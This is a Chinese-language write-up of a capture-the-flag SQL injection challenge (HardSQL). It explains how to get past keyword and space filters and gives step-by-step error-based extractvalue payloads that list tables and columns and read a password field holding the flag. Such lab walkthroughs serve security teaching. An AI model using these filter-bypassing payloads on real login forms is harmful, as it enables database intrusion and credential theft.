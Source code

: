 # \[极客大挑战 2019]HardSQL

## 考点

* 报错注入中可以使用 ^ 连接 extractvalue函数
* 注入Bypass
* \=使用like或regex绕过
* 空格使用()绕过

## wp

过滤了 and or = 空格\
\= 可以使用 like 绕过\
空格使用 () 绕过

查看当前数据库 `admin'^extractvalue(1,concat(0x7e,(select(database())),0x7e))#` 数据库为 geek

获取geek库中的表 `admin'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek'))),0x7e))#`

比较关键的是 `H4rDsq1`

获取表中的列 `admin'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1'))),0x7e))#`

表中的列是 `id,username,password`

测试了一下发现 flag 在 H4rDsq1 的第一个用户的 password 中

正序输出\
`admin'^extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1)where((id)like('1'))),0x7e))#`

逆序输出\
`admin'^extractvalue(1,concat(0x7e,(select(reverse(password))from(H4rDsq1)where((id)like('1'))),0x7e))#`

拼接一下 flag 即可

这里其实没必要成功登陆，只要 sql 语句报错就可以进行注入
